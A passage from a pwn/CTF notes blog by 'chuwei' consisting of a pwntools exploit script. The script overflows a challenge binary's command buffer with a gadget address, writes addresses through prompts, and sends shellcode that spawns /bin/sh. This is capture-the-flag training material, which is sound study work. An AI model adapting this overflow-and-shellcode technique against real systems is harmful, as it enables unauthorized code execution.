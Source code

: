 ```python
# sleep(1)
# context.log_level = 'debug'


# call gad1
gad_1 = 0x443b8

p = b"gang\x00aaa"
p += b"A"*8#p64(0x89028)
# p = p.ljust(0x10,b"A")
p += p64(0x5aa90) #help
# p += b"C"*7
p += p64(gad_1)[:-1]
io.sendlineafter(b"COMMAND> ",p)

io.sendline(b"dish")
addr = struct.unpack("f",p32(sc_addr&0xfffff000))[0]
io.sendlineafter(b"ENTER COORDINATES: ", b"0 "+str(addr).encode() )

io.sendline("engines")
addr_top = (sc_addr&0xffffffff00000000)>>2**5
io.sendlineafter(b"ENTER POWER (0-10): ",str(addr_top).encode())

io.sendline(b"help")


full_shellcode = b"/bin/sh\x00"
full_shellcode += b"\x13\x00\x00\x00\x13\x00\x00\x00\x13\x00\x00\x00\x13\x00\x00\x00\x13\x00\x00\x00\x13\x00\x00\x00\x13\x00\x00\x00\x13\x00\x00\x00\x13\x00\x00\x00\x13\x00\x00\x00\x17\x05\x00\x00\x13\x85\x05\x00\x93\x05\x00\x00\x13\x06\x00\x00\x93\x08\xd0\rs\x00\x00\x00"
io.sendline(full_shellcode)

io.interactive()
```



---

> 作者: chuwei  
> URL: https://chuw3i.github.io/posts/pwn%E6%9D%82%E8%AE%B0/  


